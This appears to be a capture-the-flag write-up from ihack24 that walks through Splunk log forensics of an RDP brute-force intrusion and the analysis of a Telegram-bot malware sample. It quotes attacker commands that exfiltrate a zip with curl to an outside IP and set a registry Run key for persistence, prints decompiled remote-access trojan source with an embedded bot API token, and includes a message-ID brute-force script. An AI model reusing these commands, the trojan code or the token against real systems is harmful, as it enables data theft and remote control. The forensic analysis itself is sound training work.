


# DFIR (Happy SPLUNKing)

## Setting Up

Upload the given virtual machine disk file in VMware Workstation Pro.

Check if the machine have it's own IP address. If not, change the network adapter from bridge to NAT.


Then, check if Splunk is running using `systemctl status splunk`

Access the splunk on browser using `http://<machine_ip>:8000`

That's all.

## SPLUNKing 1


As mentioned in the challenge descriptionn, **TodakX SOC** have been attacked by someone via RDP brute force. [RDP is Remote Desktop Protocol](https://www.cloudflare.com/learning/access-management/what-is-the-remote-desktop-protocol/#:~:text=The%20Remote%20Desktop%20Protocol%20(RDP)%20makes%20it%20possible%20for%20employees,computer%20when%20they%20work%20remotely.), as the name says, it allows employees to remotely connect to a physical computer from a distance.

Here, the attacker is trying to guess the correct credentials for user admin. From Splunk itself, notice that IP address **192.168.8.52** has the most event for destination IP, which indicates that IP was being attacked via [brute force](https://www.fortinet.com/resources/cyberglossary/brute-force-attack).



Filter out the destination IP address. 

If there is a destination, there must be a source. By examining the source IP, it is evident that **192.168.8.41** has the most events. This IP address is likely the attacker's. Additionally, the attacker most likely used a script in an attempt to obtain the correct credentials for the victim's IP address.


The source IP address can be filtered out by examining the logs in detail, revealing the IP of **DESKTOP-9O75B7U**, which is an account domain for the user **admin**.


> **Flag:** ihack24{admin:192.168.8.52}

## SPLUNKing 2


As mentioned in the previous challenge, the attacker’s IP address is **192.168.8.41**

> **Flag:** ihack24{192.168.8.41}

## SPLUNKing 3


When the attacker runs the brute force script, it attempts each credential from the attacker's wordlist. This results in numerous failed login attempts and one successful attempt. After completing its task, the script displays the correct credential as the result of the brute force attack. Only then can the attacker manually log in using the discovered credentials.

Here, the brute force process stopped at **9.55.50 PM**.


Filtering out event **ID 4672** reveals all successful logins. Identify the timestamp close to when the script finished running, which is two minutes later when the attacker manually logged in as user admin at **7/23/24 9:55:52.000 PM**.


> **Flag:** ihack24{07/23/24 09:55:52 PM}

## SPLUNKing 4


After the attacker successfully login as user admin the first thing they will face is a CMD (Command Prompt). Filtering out parent command line that have **"C:\Windows\system32\cmd.exe"**. Then look for the nearest timestamp after the attacker log in to the machine.


Here the first command executed by the attacker after the login is **systemifo**.

> **Flag:** ihack24{systeminfo}

## SPLUNKing 5


To determine which path is being excluded by **Microsoft Defender**, select the Windows PowerShell log as the source type.


Anything related to modifying Windows Defender, attacker can use command like [Add-MpPreference](https://learn.microsoft.com/en-us/powershell/module/defender/?view=windowsserver2022-ps)

Filter out the keyword **Add-MpPreference**. The displayed command is the command to exclude the path from being detected by Micorsoft Defender.


> **Flag:** ihack24{C:\Windows\microsoft}

## SPLUNKing 6


Again, lookout for any suspicious command excuted from the **powershell.transript log**.

In the same timestamp as the previous challenge, there was a powershell command excuted with a tool called **powercat** (basically a ncat or nc for windows) and an IP address act as a backdoor.


> **Flag:** ihack24{157.230.33.7}

## SPLUNKing 7


Again, looking at the same log, there was also encoded powershell command executed in order to exfiltrate the data from the host desktop to the attacker’s **C2 server (Command and Control)**.


Decode the encoded strings from **decimal to ascii**.

Decoded strings:
```
cmd.exe /c curl -XPOST 157.230.33.7/upload -F files=@C:\Users\admin\Downloads\DESKTOP-97O75B7U.zip
```

> **Flag:** ihack24{DESKTOP-97O75B7U.zip}

## SPLUNKing 8


Also, around the same timestamp, there was another powershell command which acted as a **dropper**.



> **Flag:** ihack24{nmap.exe}

## SPLUNKing 9


To find newly created users from Splunk logs, search for the command `net user`, as the logs are retrieved from a Windows OS.


Here the newly created user is named **operator** with the password **operator123**.

> **Flag:** ihack24{operator:operator123}

## SPLUNKing 10


This type of TTP used by the attacker was a good move. To search for it, filter out the defined rule name in Splunk. For this case, we choose [**T1012**](https://attack.mitre.org/techniques/T1012/), which is **Query Registry** because it looks more interesting than the other.

Below is the output that displays after the filtering. Basically, what the attacker trying to do is, everytime the computer starts, it will upload **C:\Users\admin\Documents\DESKTOP-9O75B7U.zip** to their C2 server.


> **Flag:** ihack24{reg add 'HKLM\Software\Microsoft\Windows\CurrentVersion\Run' /v report /t REG_SZ /d 'cmd.exe /c curl -XPOST 157.230.33.7/upload -F files=@C:\Users\admin\Documents\DESKTOP-9O75B7U.zip' /f}

# Malware

## Confusing Javascript

Given a javascript file. 

```bash
eb925a1589f0c98b5550d3f176a141386bd8285cab874b5ed650535d4a1c0f16.js: JavaScript source, Unicode text, UTF-8 text, with very long lines (766), with CRLF line terminators
```

Notice that the filename looks like a hash. Initial step taken was putting the filename into VirusTotal.

Link [here](https://www.virustotal.com/gui/file/eb925a1589f0c98b5550d3f176a141386bd8285cab874b5ed650535d4a1c0f16/detection)


From here, the solution can go faster for this challenge without opening the javascript file.

The link provided by the VirusTotal contains a [github repository with a malicious executable](https://github.com/Hrztrm/refactored-bassoon). 


Download the **taskmanager.exe** for further analysis.

Upon analysing the file using strings command suggest that the executable file was built using **Python**.


Decompile the executable to its source code using [pyinstxtractor](https://github.com/extremecoders-re/pyinstxtractor) .

`python3 pyinstxtractor.py taskmanager.exe`

There a lot of files in the executable. The most interesting one is **PythonTelegramBot.pyc**.


Extract the pyc file to source code using [pycdc](https://github.com/zrax/pycdc)

`pycdc PythonTelegramBot.pyc`

The source code should be something like below.

```python
# Source Generated with Decompyle++
# File: PythonTelegramBot.pyc (Python 3.10)

import telebot
import platform
import subprocess
BOT_API_KEY = '6610257712:AAFq_tYFDs5ZpWttF94KchKyzULBVQUW0PY'
telegram_user_id = 0x1724E8650
bot = telebot.TeleBot(BOT_API_KEY)

def verify_telegram_id(id):
    return telegram_user_id == id


def execute_system_command(cmd):
    max_message_length = 2048
    output = subprocess.getstatusoutput(cmd)
    if len(output[1]) > max_message_length:
        return str(output[1][:max_message_length])
    return None(output[1])


def begin(message):
    if not verify_telegram_id(message.from_user.id):
        return None
    hostname = None('hostname')
    current_user = execute_system_command('whoami')
    response = f'''Running as: {hostname}/{current_user}'''
    bot.reply_to(message, response)

begin = bot.message_handler([
    'start'], **('commands',))(begin)

def injectFlag(message):
    if not verify_telegram_id(message.from_user.id):
        return None
    Flag = None('type flag.txt')
    bot.reply_to(message, Flag)

injectFlag = bot.message_handler([
    'flag'], **('commands',))(injectFlag)

def view_file(message):
    if not verify_telegram_id(message.from_user.id):
        return None
    if None(message.text.split(' ')) != 2:
        return None
    file_path = None.text.split(' ')[1]
    result = ''
    if platform.system() == 'Windows':
        result = execute_system_command(f'''type {file_path}''')
    else:
        result = execute_system_command(f'''cat {file_path}''')
    bot.reply_to(message, result)

view_file = bot.message_handler([
    'viewFile'], **('commands',))(view_file)

def download_file(message):
Unsupported opcode: RERAISE
    if not verify_telegram_id(message.from_user.id):
        return None
    if None(message.text.split(' ')) != 2:
        return None
    file_path = None.text.split(' ')[1]
# WARNING: Decompyle incomplete

download_file = bot.message_handler([
    'downloadFile'], **('commands',))(download_file)

def handle_document_upload(message):
Unsupported opcode: RERAISE
    if not verify_telegram_id(message.from_user.id):
        return None
# WARNING: Decompyle incomplete

handle_document_upload = bot.message_handler([
    'document'], **('content_types',))(handle_document_upload)

def handle_any_command(message):
    if not verify_telegram_id(message.from_user.id):
        return None
    if None.text.startswith('/start'):
        return None
    response = None(message.text)
    bot.reply_to(message, response)

handle_any_command = bot.message_handler()(handle_any_command)
bot.infinity_polling()
```

Based on the code above, the assumption is that the flag is stored in a chat between the author and the bot. 

The specific message stored by the bot needs to be forwarded using the **forwardMessage** Telegram API call method. With the bot **API key** and **chat ID** available, the API request can be constructed once the missing part, which is the **message ID**, is found

The API request should look like this:

```
https://api.telegram.org/bot<api_key>/forwardMessage?from_chat_id=<chat_id>&message_id=<message_id>&chat_id=<chat_id>
```

Create a python script to brute force the message id.

```python
import requests

api_url = "https://api.telegram.org/bot{}/forwardMessage"

bot_token = "6610257712:<REDACTED>AAFq_tYFDs5ZpWttF94KchKyzULBVQUW0PY"

from_chat_id = "6212716112"
chat_id = "6212716112"
start_message_id = 0

def brute_force_message_id():
    message_id = start_message_id
    while True:
        try:
            response = requests.post(
                api_url.format(bot_token),
                data={
                    "from_chat_id": from_chat_id,
                    "message_id": message_id,
                    "chat_id": chat_id
                }
            )
            if response.status_code == 200:
                response_data = response.json()
                if 'result' in response_data and 'ihack' in str(response_data):
                    print(f"Found 'ihack' in message ID {message_id}")
                    break
            else:
                print(f"Failed to forward message ID {message_id}: {response.status_code}")

        except requests.exceptions.RequestException as e:
            print(f"Error: {e}")
            break

        message_id += 1
        print(message_id)

if __name__ == "__main__":
    brute_force_message_id()
```

Then, **message ID number 173** was received, and the request now appears as follows:

https://api.telegram.org/bot6610257712:AAFq_tYFDs5ZpWttF94KchKyzULBVQUW0PY/forwardMessage?from_chat_id=6212716112&message_id=173&chat_id=6212716112

The flag will be shown in a json format as below


> **Flag:** ihack24{fr0m_J4V45Cr1p7_2_73L39r4m}

# Reference

- **Splunk SPL Commands:** https://www.youtube.com/playlist?list=PLFF93FRoUwXEGaNAmZTc9pek9WzUq6unp

- **MITRE ATT&CK:** https://attack.mitre.org/

- **Zach's writeup:** https://zachwong02.github.io/post/malware-finds-a-way/
